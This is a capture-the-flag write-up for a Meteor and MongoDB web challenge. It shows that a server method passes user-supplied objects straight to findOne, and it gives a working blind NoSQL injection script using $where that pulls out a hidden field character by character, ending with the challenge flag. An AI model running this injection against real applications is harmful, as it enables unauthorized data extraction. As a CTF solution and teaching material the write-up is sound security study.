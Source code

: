 
### Tags
#NoSQLInjection #Meteor #ConsoleJS #MongoDB #CTF
### Skills 

- NoSQL Injection
- Meteor Methods
- Console JS
- $where Queries
- Boolean Blind Extraction
- MongoDB Operators


## Solution :
-> When investigating the source code we discover that the app uses a javascript framework called meteor

-> after looking in the `server` code in `main.js` we can find methods used in this challenge 
```javascript
Meteor.methods({
  getPurpose(about) {
    check(about, String);

    if (about === 'learn_more') {
      return "asteroid collection";
    }
  },
  getAsteroidNames() {
    return AsteroidCollection.find({}, { fields: { name: 1 } }).fetch();
  },
  getSize(name) {
    check(name, String);

    const asteroid = AsteroidCollection.findOne({ name });

    if (asteroid) {
      return asteroid.size;
    }
  },
  getSpeed(data, in_meters) {
    check(data, Object);
    check(in_meters, Boolean);

    const asteroid = AsteroidCollection.findOne(data);

    if (asteroid) {
      return in_meters ? asteroid.speed : asteroid.speed * 3600;
    }
  }
```

-> In meteor we can call these methods in console using `Meteor.call` as shown in the documentation here : https://guide.meteor.com/methods


-> for example :
```javascript
Meteor.call("getAsteroidNames", console.log)
```
returns the names of asteroids as shown in the code.

-> something fishy in the getSpeed method 
```js
 getSpeed(data, in_meters) {
    check(data, Object);
    check(in_meters, Boolean);

    const asteroid = AsteroidCollection.findOne(data);

    if (asteroid) {
      return in_meters ? asteroid.speed : asteroid.speed * 3600;
    }
  }
```
-> the `findOne`  allow injection of `MongoDb` queries due to no input sanitization
-> this is a NoSQL injection vulnerability because the data is an object that can be any query and can be validated due to the check on Object

#### Test
```JS
Meteor.call("getSpeed", {$where: "true"}, true, console.log)
// 17.9
Meteor.call("getSpeed", {$where: "false"}, true, console.log)
// undefined
```

-> **Reasoning:** $where: "true" selects a document (likely the first one), and getSpeed returns its speed. $where: "false" selects no documents, so findOne returns null, and getSpeed returns undefined. This behavior confirms $where can control document selection and suggests a way to test conditions on fields like description.

### exploit
```JS

const charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c";

const tryBoolean = (condition) => {
    return new Promise((resolve, reject) => {
        Meteor.call("getSpeed", {$where: condition}, true, async (err, result) => {
            return resolve(await result);
        });
    });
};

const run = async () => {
    let data = "";

    while(true) {
        let next = false;

        for (const char of charset) {
            const result = await tryBoolean(`this.name === '[[REDACTED]]' && this.description.startsWith('${data + char}')`);

            if (result !== undefined) {
                data += char;
                next = true;

                console.log(data);
                break;
            }
        }

        if (!next)
            break;
    }
}

run();
```

-> and we get the flag
BtSCTF{4st3r01ds_4r3_v3ry_c00l}
